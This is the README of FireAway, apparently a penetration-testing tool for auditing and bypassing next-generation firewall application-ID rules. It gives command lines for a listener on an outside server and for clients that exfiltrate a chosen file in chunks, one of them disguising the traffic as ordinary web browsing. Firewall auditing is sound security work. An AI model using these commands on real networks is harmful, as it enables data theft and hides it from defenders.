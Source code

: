 FireAway-Next Generation Firewall Bypass Tool
=========
*v0.1*

Fireaway is a tool for auditing, bypassing, and exfiltrating data against layer 7/AppID inspection rules on next generation firewalls.  These tactics are based on the principle of having to allow connections to establish through the NGFW in order to see layer 7 data to filter, as well as spoofing applications to hide communication channels inside the firewall logs as normal user traffic, such as Internet surfing.

 **Starting the FireAway Server:**
Typically the FireAway server would be started on the egress side of the firewall (such as a server on the Internet), and listen on a port believed to be closed to see if any application based rules allow traffic out on this port:
 
 ```
python fa_server.py <port to listen on>
```

All data received by the server on this port will be saved to the file ReceivedData.txt in the directory the server was launched from.  If the server detects differing sizes in the amount of data received (indicating firewall filtering has kicked in), this output will be shown on the server console:

  ```
Got the same or lower amount of data on two consecutive runs.  If sending test data, maximum data leak size may have been reached.
```


**Starting the FireAway Client/Application Spoofer:**
The FireAway client has two modes:
 
 - Test mode (mode 0)-Send random data in incrementing chunk sizes to see how much data can be sent before the firewall AppID engages and stops traffic flow.
 - Exfiltration mode (mode 1)-Open a file and send it in chunks through the firewall.

To start the basic client:

  ```
python fa_client.py <FireAway server IP> <Fireaway Server Port> <Client mode (0 or 1)>
```

To start the application spoofing client:
  ```
python fa_spoof.py <FireAway Server IP> <Fireaway Server Port> <Client mode (0 or 1)>
